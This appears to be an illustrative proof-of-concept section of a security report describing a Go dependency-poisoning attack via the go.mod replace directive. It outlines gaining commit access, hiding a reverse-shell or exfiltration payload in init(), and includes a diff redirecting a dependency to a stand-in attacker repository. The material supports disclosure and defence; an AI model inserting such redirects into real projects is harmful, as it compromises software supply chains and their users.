## Proof of Concept (PoC)

The following outlines the conceptual steps an attacker might take to execute a dependency poisoning attack using the `go.mod` `replace` directive. This PoC is illustrative and does not involve actual malicious code.

**Objective**: Inject malicious code into a target Go application to achieve Remote Code Execution (RCE).

**Steps**:

1. **Identify Target Module/Project**:
The attacker selects a Go project (`example.com/victim/project`) as their target. This could be an open-source project or an internal project within an organization.
2. **Create Malicious Dependency**:
The attacker identifies a legitimate dependency used by the target project, for instance, `example.com/legit/lib` at version `v1.2.0`.
The attacker then creates a malicious version of this dependency. This can be done by:
    - Forking the legitimate repository of `example.com/legit/lib` to their own controlled repository (e.g., `github.com/attacker/malicious-lib`).
    - Copying the code and creating a new repository.
    - Preparing a local directory (e.g., `./malicious-lib-code`) containing the malicious version.
    The malicious version is carefully crafted to:
    - Mimic the public API of the legitimate `example.com/legit/lib v1.2.0` to ensure the target project still compiles without errors.
    - Include a hidden payload (e.g., code to initiate a reverse shell, exfiltrate environment variables, or execute arbitrary commands). This payload might be placed in an `init()` function or a subtly modified existing function.
3. **Gain `go.mod` Modification Access**:
The attacker needs to find a way to modify the `go.mod` file of the `example.com/victim/project`. Possible methods include:
    - Compromising a developer's account with commit access to the target project's repository.
    - Exploiting a vulnerability in the CI/CD pipeline that allows for modification of source files before the build.
    - Submitting a Pull Request (PR) with the malicious `replace` directive. The PR might contain other seemingly legitimate changes to mask the malicious modification, or the attacker might use social engineering to convince a maintainer to merge it.
4. **Insert Malicious `replace` Directive**:
The attacker modifies the `go.mod` file of `example.com/victim/project`:Diff
    
    `module example.com/victim/project`

    ```bash
    go 1.21
    
    require (
    -    example.com/legit/lib v1.2.0
    +    example.com/legit/lib v1.2.0 // Original require directive might be kept visually similar
    )
    
    +// Malicious replace directive added by attacker
    +replace example.com/legit/lib v1.2.0 => github.com/attacker/malicious-lib v1.0.0
    ```
    